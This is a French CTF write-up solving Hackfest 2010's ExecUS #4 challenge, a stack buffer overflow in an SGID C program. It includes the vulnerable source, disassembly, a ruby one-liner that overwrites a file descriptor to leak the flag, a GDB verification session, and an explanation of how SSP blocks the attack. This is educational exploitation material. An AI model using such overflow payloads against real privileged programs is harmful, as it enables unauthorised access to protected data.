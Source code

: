 ```yaml
---
layout: post
title:  "Solution ExecUS #4 du Hackfest 2010"
date:   2010-11-08 00:00:00 -0400
categories: ctf,exploits
---
```


Ce weekend se tenait le [Hackfest](https://hackfest.ca) 2010 à Québec et le samedi soir son traditionnel CTF. Notre équipe a terminé en 2e place, félicitations à nos bons amis d'Amish Security qui l'ont emporté haut la main.

NOTE: j'utilise ici une version recompilée du binaire, les adresses qui apparaissent dans cette solution ne sont probablement pas les mêmes que celles du binaire original. Si vous voulez l'essayer sur un Linux récent, assurez vous de désactiver le mode SSP:

```
gcc -fno-stack-protector -o execus4 execus4.c 
```

Cet article présente la solution de l'épreuve ExecUS #4, dont voici le code:

```c
#include <fcntl.h>
#include <stdio.h>
#include <strings.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
 
#define SZ 256
 
int main(int argc, char **argv)
{
  int ofd;
  char buf[SZ];
  char oloc[] = "/dev/null";
  char iloc[] = "flag.txt";
  int ifd;
  int len;
 
  printf("Dev null is an awesome 100%% compression ratio, secure, backup device.\n");
 
  if ( argc < 2 )
    exit(0);
 
  ifd = open(iloc, O_RDONLY);
  ofd = open(oloc, O_WRONLY);
 
  strcpy(buf, argv[1]);
 
  if( ifd <= 0x00 || ofd <= 0x00) {
    printf("Error, failed to open files.\n");
    exit(1);
  }
 
  for(bzero(buf,SZ-1); len = read(ifd,buf,SZ-1); bzero(buf,SZ-1) )
    write(ofd,buf,len);
}
```

 Le programme ouvre le fichier flag.txt contenant le flag et le copie dans /dev/null. Le fichier flag.txt n'est pas accessible directement, mais le binaire est configuré avec le bit SGID et le groupe y a accès en lecture.

À la ligne 27, on observe un cas de buffer overflow puisque la taille de argv[1] ne fait l'objet d'aucune vérification au préalable.

```c
strcpy(buf, argv[1]); 
```

En observant l'ordre de déclaration des variables, il est probable que la variable ofd puisse être écrasée, ce que nous pouvons vérifier désassemblant le code:

```
 804856a:    e8 41 fe ff ff           call   80483b0 <open@plt>
 804856f:    89 84 24 28 01 00 00     mov    %eax,0x128(%esp)
 8048576:    c7 44 24 04 01 00 00     movl   $0x1,0x4(%esp)
 804857d:    00
 804857e:    8d 44 24 1a              lea    0x1a(%esp),%eax
 8048582:    89 04 24                 mov    %eax,(%esp)
 8048585:    e8 26 fe ff ff           call   80483b0 <open@plt>
 804858a:    89 84 24 24 01 00 00     mov    %eax,0x124(%esp)
 8048591:    8b 45 0c                 mov    0xc(%ebp),%eax
 8048594:    83 c0 04                 add    $0x4,%eax
 8048597:    8b 00                    mov    (%eax),%eax
 8048599:    89 44 24 04              mov    %eax,0x4(%esp)
 804859d:    8d 44 24 24              lea    0x24(%esp),%eax
 80485a1:    89 04 24                 mov    %eax,(%esp)
 80485a4:    e8 57 fe ff ff           call   8048400 <strcpy@plt>
```

Comme on peut le voir, le résultat du 2e appel à `open()` qui ouvre /dev/null en écriture est écrit à esp+0x124 (`ofd`) et l'adresse à laquelle `strcpy()` écrit `buf` est esp+0x24. La variable `ofd` est donc situé 0x100 octets après `buf`. Convertit en décimal l'espace est de 256 octets, ce qui correspond à la longueur de `buf`.

On peut donc écraser ofd, mais en quoi celà peut-il nous être est utile? Pour le comprendre, il faut se référer au fonctionnement d'UNIX. La variable `ofd` contient ce qu'on appelle un [descripteur de fichier](http://en.wikipedia.org/wiki/File_descriptor) qui est un index dans la table des fichiers ouverts par le processus. Pour tous les processus, le système d'exploitation crée les descripteurs spéciaux suivants :

- Entrée standard (stdin)  : 0
- Sortie standard (stdout) : 1
- Sortie d'erreur (stderr) : 2

La solution est maintenant évidente, il suffit d'écraser `ofd` avec la valeur 1 pour que la clé soit écrite sur la sortie standard et apparaisse à l'écran. Nous allons construire une chaine constituée de 256 caractères pour remplir `buf` suivie de la valeur 1 pour écraser `ofd`. On peut passer cette valeur en paramètre à GDB en utilisant la commande suivante :

```
run $(ruby -e 'print "A" * 256 + "\x01"')
```

On peut vérifier le bon fonctionnement de notre exploit à l'aide de GDB. On commence par mettre un breakpoint juste avant l'appel à `strcpy()` pour examiner la valeur de `ofd`.

```
(gdb) b *0x080485a4
Punto de interrupción 1 at 0x804858a: file execus4.c, line 25.
(gdb) run $(ruby -e 'print "A" * 256 + "\x01"')
Starting program: /home/ekse/code/execus4 $(ruby -e 'print "A" * 256 + "\x01"')
Dev null is an awesome 100% compression ratio, secure, backup device.

Breakpoint 1, 0x080485a4 in main (argc=2, argv=0xbffff3b4)
(gdb) x/x $esp+0x124
0xbffff2f4:    0x00000006
```

La valeur de ofd est actuellement 0x06. Le listing suivant montre que la valeur est bien écrasée par notre overflow.

```
(gdb) nexti
(gdb) x/65x $esp+0x24
0xbffff1f4:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff204:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff214:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff224:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff234:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff244:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff254:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff264:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff274:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff284:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff294:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff2a4:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff2b4:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff2c4:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff2d4:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff2e4:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff2f4:    0x00000001
(gdb) x/x $esp+0x124
0xbffff2f4:    0x00000001
```

Maintenant que nous savons que notre exploit est fonctionnel, il suffit de lancer le binaire directement pour obtenir le flag (je n'ai malheureusement pas sauvegardé le flag original) .

```
ekse@eclipse:~/code$ ./execus4 $(ruby -e 'print "A" * 256 + "\x01"')
Dev null is an awesome 100% compression ratio, secure, backup device.
LEFLAGDUCHALLENGE
```

### Un mot sur SSP

Le binaire utilisé lors de la compétition n'était pas compilé avec SSP pour facilité la solution. L'utilisation de SSP permet de bloquer cette avenue d'exploitation. Ce n'est pas toutefois pas par l'utilisation du canari (qui faisait d'ailleurs l'objet d'une très bonne présentation par Paul Rascagneres au Hackfest) puisque nous ne cherchons pas à écraser l'adresse de retour. 

La mitigation vient plutôt du fait que SSP réorganise les variables sur la stack pour placer les tableaux après les variables de taille fixe. Le listing suivant montre le même code présenté plus haut mais lorsque le mode SSP est activé:

```
 80485f5:    e8 fa fd ff ff           call   80483f4 <open@plt>
 80485fa:    89 44 24 30              mov    %eax,0x30(%esp)
 80485fe:    c7 44 24 04 01 00 00     movl   $0x1,0x4(%esp)
 8048605:    00
 8048606:    8d 84 24 39 01 00 00     lea    0x139(%esp),%eax
 804860d:    89 04 24                 mov    %eax,(%esp)
 8048610:    e8 df fd ff ff           call   80483f4 <open@plt>
 8048615:    89 44 24 34              mov    %eax,0x34(%esp)
 8048619:    8b 44 24 1c              mov    0x1c(%esp),%eax
 804861d:    83 c0 04                 add    $0x4,%eax
 8048620:    8b 00                    mov    (%eax),%eax
 8048622:    89 44 24 04              mov    %eax,0x4(%esp)
 8048626:    8d 44 24 39              lea    0x39(%esp),%eax
 804862a:    89 04 24                 mov    %eax,(%esp)
 804862d:    e8 12 fe ff ff           call   8048444 <strcpy@plt>
``` 

Comme on peut le voir, la variable `ofd` se trouve à ESP+0x34 et `buf` commence à ESP+0x39. On ne peut donc plus écraser ofd. 